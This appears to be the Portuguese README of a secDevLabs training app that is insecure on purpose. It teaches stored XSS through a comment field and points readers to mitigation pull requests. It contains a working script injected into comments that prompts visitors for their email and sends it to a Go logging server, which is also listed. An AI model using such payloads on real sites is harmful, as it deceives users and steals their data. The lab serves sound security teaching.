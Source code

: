 # Comment-killer

<p align="center">
    <img src="images/img1.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

O Comment-killer é um aplicativo ReactJS simples, que possui uma vulnerabilidade de injeção (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-lo.

## Index

- [Comment-killer](#comment-killer)
  - [Index](#index)
  - [O que é Cross Site Scripting?](#o-que-é-cross-site-scripting)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💵](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)


## O que é Cross Site Scripting?

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este aplicativo **intencionalmente inseguro**, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Depois é só visitar [http://localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Leia a história legal por trás dos Memes.
- Adicione um novo comentário.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Adicionando um novo comentário a uma postagem:

<p align="center">
    <img src="images/img2.png"/>
</p>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

#### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir criará um formulário de email para tentar roubar as credenciais do usuário.

Inicialmente, uma API é necessária para registrar todas as solicitações recebidas e pode ser construída em Golang da seguinte forma:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Com a API em funcionamento, basta o seguinte código para mostrar uma mensagem pop-up solicitando o e-mail do usuário para continuar lendo o blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

O código JavaScript acima é responsável por enviar uma solicitação `GET` para a API do invasor para que ela possa ser registrada. Neste cenário, enviaremos solicitações para `localhost`.

Tudo o que precisamos agora é colar o código JavaScript no campo de comentários, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img3.png"/>
</p>

Quando outro usuário acessar o aplicativo, o seguinte pop-up será mostrado, como podemos ver na imagem abaixo:

<p align="center">
    <img src="images/img4.png"/>
</p>

Enquanto isso, com a API em funcionamento, podemos receber o e-mail do usuário, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

<a name="Sol"></a>

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [esses pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
[secdevlabs]: https://github.com/globocom/secDevLabs
